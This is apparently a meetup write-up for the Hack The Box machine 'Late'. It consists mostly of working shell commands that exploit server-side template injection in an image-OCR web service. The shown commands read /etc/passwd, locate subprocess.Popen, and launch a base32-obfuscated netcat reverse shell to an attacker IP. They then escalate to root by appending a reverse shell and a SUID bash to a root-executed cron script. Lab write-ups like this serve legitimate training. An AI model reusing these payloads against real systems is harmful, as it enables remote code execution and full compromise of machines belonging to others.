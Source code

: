 

# hackdewereld meetup 18-08-2022
late.htb

# hosts
late.htb 
image.late.htb # vuln for ssti


# special setting:

If your convert commands fails in the proxy use this command:

```bash
ls /etc/ImageMagick*/policy.xml | while read line; do cp $line $line.bak; done; sed -i 's/16KP/128KP/g' /etc/ImageMagick*/policy.xml
```

# what to do
- make image

I chose to make a mitm proxy solution for this.

- send to server with ocr

You can use curl while running the mitmproxy like this:
```bash
# pane 1
mitmdump --listen-port 8800 -k -s mitm_p_script.py
# pane 2
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
```

The haxhaxhax is injected via mitmproxy.

- ssti

I've tried using tpl-map on this proxy but that didn't work.

```bash
python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=' --proxy 'http://localhost:8800'
```

So let's do it manual.

```bash
curl -x 'http://localhost:8800' -d 'ssti={{7*7}}' http://images.late.htb/haxhaxhax
curl -x 'http://localhost:8800' -d 'ssti={{"7"*7}}' http://images.late.htb/haxhaxhax
# python2 tplmap.py -u http://images.late.htb/haxhaxhax -d 'ssti=*' --proxy 'http://localhost:8800'

# read /etc/passwd on the server:
curl -Ssx 'http://localhost:8800' -d 'ssti={{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}' http://images.late.htb/haxhaxhax

# get all subclasses:
curl -Ssx 'http://localhost:8800' -d 'ssti=abcde {% with a = dict.mro()[-1].__subclasses__() %} {{ a }} {% endwith %} asdfb' http://images.late.htb/haxhaxhax | w3m -dump -T text/html

# get subprocesses number:
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen
# 243: class'subprocess.Popen
# 475:class 'click.utils.KeepOpenFile
```

Rce:

```bash
# pane 1
ip=$(ip a s tun0 | grep inet | head -n1 | awk '{print $2}' | cut -d/ -f1)
port=9000

index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))']("id",shell=True,stdout=-1).communicate()[0].strip()}} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc '$ip' '$port' >/tmp/f' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax

# pane 2
nc -lvnp 9000 
# or 
stty raw -echo; (echo 'python3 -c "import pty;pty.spawn(\"/bin/bash\")"';echo pty;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=\$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;echo export TERM=xterm-256color;echo alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 9000 && reset
```




# privesc
- writable sbin folder that is exec by root crontab


```bash
# rev shell:
echo "echo $(echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 443 >/tmp/f' | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
# suid bin:
echo -e 'cp /bin/bash /tmp/bash\nchown root:root /tmp/bash\nchmod +x /tmp/bash\nchmod u+s /tmp/bash' >> /usr/local/sbin/ssh-alert.sh;echo bla | ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1 ; /tmp/bash -p
```

and execute it by using ssh on the server

```bash
ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1
```


```bash
index=$(curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__() }} '  http://images.late.htb/haxhaxhax | w3m -dump -T text/html  | tr -d '\n' | sed "s|'>, <|\n|g" | sed "s|'>,<class '|\nclass |g" | grep -in popen | head -n1 | cut -d : -f 1)
curl -Ssx 'http://localhost:8800' -d 'ssti={{dict.mro()[-1].__subclasses__()['$(($index-1))'](request.args.input,shell=True,stdout=-1).communicate()[0].strip()}} ' -d 'input=echo '$(echo 'echo "echo $(echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 443 >/tmp/f" | base32 -w 0) | base32 -d | bash" >> /usr/local/sbin/ssh-alert.sh ; ssh -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no 127.0.0.1' | base32 -w 0)' | base32 -d | bash' http://images.late.htb/haxhaxhax
```


# ORC POC

```bash
kill -9 $(ps aux | grep -i mitm | awk '{print $2}'); pkill nc; ./one-click-root.py
```

![](late.htb/ocr.gif)
